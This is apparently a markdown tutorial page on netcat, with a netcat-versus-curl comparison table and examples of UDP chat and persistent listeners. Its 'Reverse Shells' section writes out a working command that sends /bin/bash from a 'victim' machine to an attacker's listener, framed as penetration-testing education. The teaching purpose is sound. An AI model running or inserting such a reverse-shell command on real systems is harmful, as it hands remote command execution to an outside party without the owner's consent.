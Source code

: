 ### Netcat vs Curl
| Feature | Netcat | Curl |
|---------|--------|------|
| **HTTP Support** | Manual | Built-in |
| **Protocols** | Any TCP/UDP | HTTP/HTTPS/FTP/etc |
| **File Transfer** | Yes | Yes |
| **Interactive** | Yes | No |
| **Scripting** | Limited | Advanced |

## 🛠️ Advanced Netcat Techniques

### 1. Reverse Shells (Security Testing)

**Create Reverse Shell**
```bash
# On target machine (victim)
nc -e /bin/bash 192.168.1.100 1234

# On attacker machine
nc -l -p 1234
```

**Educational Context**: This demonstrates how netcat can be used for remote command execution. This is commonly used in penetration testing and security assessments.

### 2. UDP Communication

**UDP Chat Server**
```bash
# Server side
nc -u -l -p 1234

# Client side
nc -u 192.168.1.1 1234
```

**Educational Context**: UDP is connectionless, so both sides can send data without establishing a connection first.

### 3. Persistent Connections

**Keep Connection Open**
```bash
# Server that stays open for multiple connections
nc -k -l -p 1234

# Client connections
nc 192.168.1.1 1234
```

